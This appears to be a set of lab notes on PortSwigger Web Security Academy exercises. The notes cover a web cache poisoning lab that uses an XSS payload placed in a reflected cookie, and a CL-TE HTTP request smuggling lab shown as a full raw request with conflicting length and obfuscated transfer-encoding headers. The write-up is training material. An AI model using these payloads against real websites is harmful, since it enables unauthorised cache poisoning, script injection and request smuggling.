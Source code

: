 ### Web Cache Poisoning LAB 2

We need to pop an alert(1) through the cookie. First we add a cache buster such as: `?cb=1234` and figure out which cookie is being reflected. It's fehost, so we add to it: `"-alert(1)-"`. We remove the cache buster, therefore sending that request to `/`. When we get a `X-Cache: hit` header, copy the url and paste it in the browser. The alert is popped, lab is solved.


## Request Smuggling

Is the process of sending a smuggled request inside another request. This arises when there are multiple servers before reaching the ultimate backend server. Imagine a situation where the frontend server uses Content-Length to discern where the body ends, but the backend server uses Transfer-Encoding:

The frontend will forward the entire request to the backend, due to the matching content-length, but the backend server will see a chunk size of 0, implying the transfer encoding request is over. However, since the frontend server forwarded the whole request, there are still bytes left unprocessed, which due to the nature of the http protocol, will be seen as the next HTTP request.

CL-TE:

### LAB 1

```

POST / HTTP/1.1
Host: 0af7005004fa2008c0e7414d00480036.web-security-academy.net
Cookie: session=q4YcBH0UA9IiP3stGRgZQhwFCOXFSUBi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://portswigger.net/
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
tRANSFER-ENCODING: chunked


0

G

```
TE-CL:
